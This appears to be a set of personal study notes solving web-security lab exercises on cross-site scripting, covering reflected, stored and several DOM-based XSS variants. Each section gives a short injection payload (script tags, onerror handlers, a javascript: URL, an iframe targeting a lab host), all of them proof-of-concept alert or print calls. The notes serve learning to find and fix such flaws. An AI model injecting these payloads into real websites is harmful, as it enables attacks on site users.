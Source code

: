 ____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`

![[Pasted image 20240803072009.png]]

```html
"><script>alert(1)</script>
```

![[Pasted image 20240803072133.png]]

# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js
<img src onerror=alert(1)>
```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```

![[Pasted image 20240803074347.png]]

# DOM XSS in jQuery selector sink using a hashchange event

```html
<iframe src="https://0a7700c6030ec6b582e3533b006c00b1.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```


